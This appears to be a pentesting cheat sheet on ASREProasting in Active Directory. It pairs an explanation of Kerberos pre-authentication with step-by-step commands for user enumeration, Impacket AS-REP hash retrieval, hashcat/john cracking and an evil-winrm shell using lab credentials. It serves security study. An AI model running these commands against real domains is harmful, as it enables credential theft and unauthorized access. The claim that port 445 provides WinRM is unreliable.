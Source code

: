 # ASREProast

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. A ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to **ASREProast**).

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from the user password. Technically, when asking the KDC (Key Distribution Center) for a TGT (Ticket Granting Ticket), the requesting user needs to validate pre-authentication by sending a timestamp encrypted with it's own credentials. It ensures the user is requesting a TGT for himself. Once validated, the TGT is then sent to the user in the `KRB_AS_REP` message, but that message also contains a session key. That session key is encrypted with the requested user's NT hash.

Because some applications don't support Kerberos preauthentication, it is common to find users with Kerberos preauthentication disabled, hence allowing attackers to request TGTs for these users and crack the session keys offline. This is ASREProasting.

While this technique can possibly allow to retrieve a user's credentials, the TGT obtained in the `KRB_AS_REP` messages are encrypted cannot be used without knowledge of the account's password.



***

## Practical

{% hint style="info" %}
While this attack can be carried out without any prior foothold (domain user credentials), there is no way of finding out users with `Do not require Kerberos preauthentication` set without that prior foothold.
{% endhint %}

### Recon

```
nmap -T4 -A -v <Host>
```



### User Enumeration

#### LDAP

```
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```



#### RPCClient

```
rpcclient -U "" -N <host>
rpcclient $> enumdomusers
```



### Retrieve Users TGTs

#### Impacket

{% hint style="info" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) (Python) can get TGTs for the users that have the property `Do not require Kerberos preauthentication` set.
{% endhint %}

```
GetNPUsers.py -request -format hashcat -outputfile ~/Desktop/ASREProastables.txt -dc-ip <host> 'Domain/username:password'
```



### Brute Force Hash

#### John

```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt ~/Desktop/user-hash.txt
```

#### Hashcat

```
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
```



### Get Shell

{% hint style="info" %}
And we have our user and pass, Doubling back to our nmap scan we also see that we have port `445/tcp` allowing us to use WinRm. A great tool to establish a shell with WinRm is [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm) and that is what we'll be using
{% endhint %}

#### Evil-Winrm

```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

#### Evil-Winrm (Docker) - Recommended

```
sudo docker run --rm -ti --name evil-winrm  oscarakaelvis/evil-winrm -i <host> -u <username> -p '<password>'
```





***

## REFERENCES

* [https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)
* [https://bkr3257.gitbook.io/hackynotes/htb-writeups/forest](https://bkr3257.gitbook.io/hackynotes/htb-writeups/forest)
* [https://www.thehacker.recipes/a-d/movement/kerberos/asreproast](https://www.thehacker.recipes/a-d/movement/kerberos/asreproast)
* [https://forum.hackthebox.com/t/evil-winrm-error-on-connection-to-host/257342/17](https://forum.hackthebox.com/t/evil-winrm-error-on-connection-to-host/257342/17)

